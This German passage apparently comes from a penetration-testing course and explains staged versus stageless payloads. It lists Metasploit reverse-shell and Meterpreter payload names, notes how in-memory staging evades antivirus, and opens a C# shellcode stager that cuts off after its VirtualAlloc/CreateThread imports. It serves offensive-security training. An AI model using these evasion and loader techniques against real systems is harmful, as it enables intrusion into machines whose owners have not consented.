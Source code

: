 Für Staged-Payloads haben Sie:

- Geringer Speicherbedarf auf der Festplatte. Da Stage0 nur für das Herunterladen des finalen Shellcodes zuständig ist, wird es wahrscheinlich klein sein.
- Der finale Shellcode ist nicht in die ausführbare Datei eingebettet. Wenn Ihr Payload erfasst wird, hat das Blue Team nur Zugriff auf den Stage0-Stub und nichts weiter.
- Der finale Shellcode wird im Speicher geladen und berührt niemals die Festplatte. Dies macht ihn weniger anfällig für Erkennung durch AV-Lösungen.
- Sie können denselben Stage0-Dropper für viele Shellcodes wiederverwenden, indem Sie einfach den finalen Shellcode ersetzen, der an die Opfermaschine gesendet wird.

Zusammenfassend lässt sich sagen, dass weder die eine noch die andere Art grundsätzlich besser ist, es sei denn, wir fügen etwas Kontext hinzu. Im Allgemeinen sind Stageless-Payloads besser für Netzwerke geeignet, die stark abgesichert sind, da sie nicht darauf angewiesen sind, den finalen Shellcode aus dem Internet herunterzuladen. Wenn Sie beispielsweise einen USB-Drop-Angriff durchführen, um Computer in einer geschlossenen Netzwerkumgebung anzugreifen, in der Sie keine Verbindung zu Ihrer Maschine zurückbekommen werden, ist Stageless die beste Wahl.

Staged-Payloads hingegen sind großartig, wenn Sie möchten, dass Ihr Fußabdruck auf der lokalen Maschine minimal ist. Da sie den finalen Payload im Speicher ausführen, könnten einige AV-Lösungen Schwierigkeiten haben, sie zu erkennen. Sie eignen sich auch gut, um Ihre Shellcodes nicht zu offenbaren (die normalerweise erhebliche Zeit zur Vorbereitung benötigen), da der Shellcode zu keinem Zeitpunkt auf der Festplatte des Opfers abgelegt wird.

Stagers in Metasploit

Bei der Erstellung von Payloads mit msfvenom oder der Verwendung in Metasploit können Sie wählen, ob Sie staged oder stageless Payloads verwenden möchten. Als Beispiel, wenn Sie eine reverse TCP-Shell generieren möchten, finden Sie zwei Payloads für diesen Zweck mit leicht unterschiedlichen Namen (beachten Sie das _ versus / nach shell).
| Payload | Type |
| ------- | ---- |
| windows/x64/shell_reverse_tcp | Stageless payload |
| windows/x64/shell/reverse_tcp | Staged payload |

Generell werden Sie feststellen, dass dieselben Namensmuster auch auf andere Arten von Shells angewendet werden. Um beispielsweise einen stageless Meterpreter zu verwenden, würden wir `windows/x64/meterpreter_reverse_tcp` verwenden, anstatt `windows/x64/meterpreter/reverse_tcp`, was für seine staged Version funktioniert.

### Erstellung Ihres eigenen Stagers

Um einen staged Payload zu erstellen, verwenden wir eine leicht modifizierte Version des Stager-Codes, der von [@mvelazc0](https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab2/2.cs) bereitgestellt wurde. Den vollständigen Code unseres Stagers können Sie hier erhalten, er ist aber auch auf Ihrem Windows-Rechner unter `C:\Tools\CS Files\StagedPayload.cs` verfügbar.
```CS
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);
```